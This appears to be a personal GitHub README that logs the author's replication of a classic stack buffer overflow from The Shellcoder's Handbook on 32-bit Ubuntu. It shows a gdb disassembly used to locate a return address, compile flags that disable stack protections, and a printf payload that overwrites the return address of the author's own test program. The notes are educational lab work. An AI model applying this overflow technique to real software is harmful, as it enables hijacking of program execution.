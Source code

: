 # Smashing_Stack2018
Working with wiley shellcoders handbook... replicating the exploits from 15 years ago is tricky with modern security features is challenging.

Using Virtual box to run ubuntu 32-bit 

First Example file aa.c:


++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

First example uses a function to set up an erray and fill it with user input.
Use gdb to disas main and find the RET address

(gdb) disas main
Dump of assembler code for function main:
   0x0804845c <+0>:	push   %ebp
   0x0804845d <+1>:	mov    %esp,%ebp
   0x0804845f <+3>:	call   0x804843b <sicario>   <<<<<<<<<<RET ADDRESS 
   0x08048464 <+8>:	push   $0x8048500
   0x08048469 <+13>:	call   0x8048310 <puts@plt>
   0x0804846e <+18>:	add    $0x4,%esp
   0x08048471 <+21>:	mov    $0x0,%eax
   0x08048476 <+26>:	leave  
   0x08048477 <+27>:	ret    
End of assembler dump.
(gdb) 


Compiled with :
gcc -ggdb -mpreferred-stack-boundary=2 -ggdb -zexecstack -fno-stack-protector -fno-omit-frame-pointer aa.c -o PressPlay

Running : 
$ printf AAAAAAAA9ABBBBBBBB9BCCCCCCCC9CDDDDx5fx84x04x08 | ./PressPlay

Output : 
sunshinie@11:43 AM:~$ printf "AAAAAAAA9ABBBBBBBB9BCCCCCCCC9CDDDD\x5f\x84\x04\x08" | ./PressPlay // RET address little indian i think 
AAAAAAAA9ABBBBBBBB9BCCCCCCCC9CDDDD_�
AAAAAAAA9ABBBBBBBB9BCCCCCCCC9CDDDDd�
RET points here 
Segmentation fault (core dumped)
sunshinie@11:44 AM:~$ 

Success
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
